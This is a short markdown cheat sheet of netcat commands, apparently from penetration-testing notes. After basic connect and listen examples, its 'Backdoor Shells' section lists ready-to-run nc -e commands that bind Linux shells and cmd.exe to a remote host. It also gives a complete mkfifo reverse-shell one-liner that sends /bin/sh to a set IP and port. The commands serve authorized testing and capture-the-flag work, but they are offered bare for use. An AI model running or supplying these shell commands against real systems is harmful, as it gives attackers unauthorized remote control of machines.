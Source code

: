 # Netcat Tips

### Fundamentals

Connect to a netcat client:

```
rlwrap nc [IP Address] [port]
```

Connect to a netcat Listener:

```
rlwrap nc -lvp [Localport]
```

More info on rlwrap: [https://linux.die.net/man/1/rlwrap](https://linux.die.net/man/1/rlwrap)

### Backdoor Shells

Linux:

```
rlwrap nc [Your IP Address] -e /bin/sh
rlwrap nc [Your IP Address] -e /bin/bash
rlwrap nc [Your IP Address] -e /bin/zsh
rlwrap nc [Your IP Address] -e /bin/ash
```

Windows:

```
rlwrap nc -lv [localport] -e cmd.exe
```

Linux netcat reverse shell:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.21.0.0 1234 >/tmp/f
```
